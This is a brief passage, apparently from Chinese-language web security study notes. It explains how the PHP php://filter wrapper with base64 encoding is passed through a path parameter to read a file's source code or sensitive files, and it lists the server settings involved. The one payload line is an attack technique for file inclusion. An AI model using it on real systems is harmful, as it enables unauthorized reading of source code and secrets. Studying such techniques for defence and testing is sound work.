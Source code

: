 ![image-20210723171721100](文件上传/image-20210723171721100.png)

```
#php://filter 读取文件/源码  (可使用绝对路径或者相对路径)
允许条件：
	allow_url_fopen:Off/On
	allow_url_include:Off/On
使用:
	?path = php://filter/read=convert.base64-encode/resource=fillname
通过指定末尾的文件，可以读取经过base64编码后的文件源码，可读取敏感文件
```

![image-20210723165233511](文件上传/image-20210723165233511.png)

